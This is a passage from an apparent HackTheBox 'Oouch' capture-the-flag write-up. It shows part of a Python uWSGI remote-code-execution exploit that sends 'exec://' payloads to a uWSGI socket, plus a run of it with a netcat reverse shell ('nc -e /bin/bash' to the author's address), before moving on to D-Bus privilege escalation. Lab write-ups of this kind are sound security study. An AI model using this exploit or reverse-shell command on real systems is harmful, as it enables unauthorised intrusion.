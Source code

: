 ```python
    
    parser = argparse.ArgumentParser(description=desc, epilog=elog)

    parser.add_argument('-m', '--mode', nargs='?', default='tcp',
                        help='Uwsgi mode: 1. http 2. tcp 3. unix. The default is tcp.',
                        dest='mode', choices=['http', 'tcp', 'unix'])

    parser.add_argument('-u', '--uwsgi', nargs='?', required=True,
                        help='Uwsgi server: 1.2.3.4:5000 or /tmp/uwsgi.sock',
                        dest='uwsgi_addr')

    parser.add_argument('-c', '--command', nargs='?', required=True,
                        help='Command: The exploit command you want to execute, must have this.',
                        dest='command')

    if len(sys.argv) < 2:
        parser.print_help()
        return
    args = parser.parse_args()
    if args.mode.lower() == "http":
        print("[-]Currently only tcp/unix method is supported in RCE exploit.")
        return
    payload = 'exec://' + args.command + "; echo test" # must have someting in output or the uWSGI crashs.
    print("[*]Sending payload.")
    print(curl(args.mode.lower(), args.uwsgi_addr, payload, '/testapp'))

if __name__ == '__main__':
    main()
```

And Copied the new edited script in the same way and this time I uploaded `nc` to the docker too.

```bash
qtc@aeb4525789d8:/tmp$ python exploit.py -m unix -u /tmp/uwsgi.socket -c '/tmp/nc -e /bin/bash 10.10.14.9 8080'
[*]Sending payload.
```

Im now `www-data`

![Untitled](/img/htb-oouch/Untitled%2029.png)

Now time for dbus exploitation.

### D-Bus Exploitation

[http://www.kaizou.org/2014/06/dbus-command-line.html](http://www.kaizou.org/2014/06/dbus-command-line.html)

[https://linux.die.net/man/1/dbus-send](https://linux.die.net/man/1/dbus-send)

After lot of enumeration and using those articles, I found a way to get reverse shell as root.
